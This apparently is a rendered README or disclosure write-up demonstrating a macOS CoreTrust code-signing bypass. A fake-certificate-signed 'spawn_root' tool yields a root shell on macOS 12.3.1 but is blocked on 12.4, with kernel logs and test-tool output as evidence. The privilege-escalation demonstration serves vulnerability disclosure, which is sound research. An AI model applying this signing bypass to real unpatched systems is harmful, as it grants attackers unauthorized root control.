Running this app on macOS 12.4 crashes immediately:

```
$ ./spawn_root bash
Killed: 9


```

In the kernel log, AMFI rejects the entitlements:

```
kernel	AMFI: code signature validation failed.
kernel	AMFI: bailing out because of restricted entitlements.


```

But running on macOS 12.3.1 gives a root shell:

```
zhuowei-mini:~ zhuowei$ ./spawn_root bash
zhuowei-mini:~ root#


```

If you turn on cs_debug (`sysctl vm.cs_debug=1`), the kernel prints:

```
kernel	AMFI: vnode_check_signature called with platform 1
kernel	setting platform binary on task: pid = 964


```

Which shows that the kernel accepted our fake signed app as a genuine platform application.

We can further validate that our fake cert worked by calling `CTEvaluateAMFICodeSignatureCMS` directly with [this tool](https://github.com/zhuowei/CoreTrustDemo/blob/main/littlect.m):

On macOS 12.4, CoreTrust correctly detects that the root certificate is not Apple, and sets `policy_flags = 0`, just like an ad-hoc signature:

```
ct_little[9924:455779] result = 0 leaf_certificate = 0x7fe3ec00be99 leaf_certificate_length = 440 policy_flags = 0 cms_digest_type = 4 hash_agility_digest_type = 4 digest_data = 0x7fe3ec00c438 digest_length = 20


```

However, on macOS 12.3.1, `policy_flags` is set to `0x100008`, based on the OID we specified:

```
ct_little[654:5957] result = 0 leaf_certificate = 0x13b80cc99 leaf_certificate_length = 440 policy_flags = 100008 cms_digest_type = 4 hash_agility_digest_type = 4 digest_data = 0x13b80d238 digest_length = 20


```
